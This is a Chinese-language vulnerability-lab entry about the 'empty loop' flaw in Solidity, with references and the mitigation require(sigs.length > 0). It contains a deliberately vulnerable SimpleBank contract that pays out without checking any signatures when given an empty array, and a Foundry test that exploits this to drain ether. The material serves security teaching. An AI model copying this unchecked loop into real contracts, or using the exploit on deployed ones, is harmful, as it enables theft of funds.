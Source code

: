 [empty-loop.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/empty-loop.sol)

# 空循环

**名称：** 空循环问题

**说明：** 由于验证不充分，攻击者可以简单地传递一个空数组来绕过循环和签名验证。

**减轻：**

检查签名数量 require(sigs.length > 0, "未提供签名");

**参考：**

https://twitter.com/1nf0s3cpt/status/1673195574215213057

https://twitter.com/akshaysrivastv/status/1648310441058115592

https://dacian.me/exploiting-developer-assumptions#heading-unexpected-empty-inputs

**SimpleBank 合约样例:**

```jsx
contract SimpleBank {
    struct Signature {
        bytes32 hash;
        uint8 v;
        bytes32 r;
        bytes32 s;
    }

    function verifySignatures(Signature calldata sig) public {
        require(
            msg.sender == ecrecover(sig.hash, sig.v, sig.r, sig.s),
            "Invalid signature"
        );
    }

    function withdraw(Signature[] calldata sigs) public {
        // Mitigation: Check the number of signatures
        //require(sigs.length > 0, "No signatures provided");
        for (uint i = 0; i < sigs.length; i++) {
            Signature calldata signature = sigs[i];
            // Verify every signature and revert if any of them fails to verify.
            verifySignatures(signature);
        }
        payable(msg.sender).transfer(1 ether);
    }

    receive() external payable {}
}
```

***\*测试方法:\****

仿真测试 --contracts src/test/**empty-loop.sol** -vvvv

```jsx
// Function to test a vulnerability related to signature validation
    function testVulnSignatureValidation() public {
        // Transfers 10 Ether to the SimpleBankContract
        payable(address(SimpleBankContract)).transfer(10 ether);
        
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Initiates a "prank" on Alice's account in the virtual machine
        vm.startPrank(alice);

        // Initializes an empty array of Signature structs from the SimpleBank contract
        SimpleBank.Signature[] memory sigs = new SimpleBank.Signature[](0); // empty input

        // Logs Alice's balance before the exploit
        console.log(
            "Before exploiting, Alice's ether balance",
            address(alice).balance
        );
        
        // Calls the withdraw function of the SimpleBank contract with the empty signatures array as the parameter
        // If the SimpleBank contract does not validate the signatures properly, this might result in unauthorized withdrawal
        SimpleBankContract.withdraw(sigs); 

        // Logs Alice's balance after the exploit
        console.log(
            "Afer exploiting, Alice's ether balance",
            address(alice).balance
        );
    }
```

**红色框：传递一个空数组以绕过验证。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F0c65504d-c3f1-4ee1-b088-76f631784fb3%2FUntitled.png?table=block&id=aa602a09-ccf5-4348-87dd-8ae494f92e4c&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)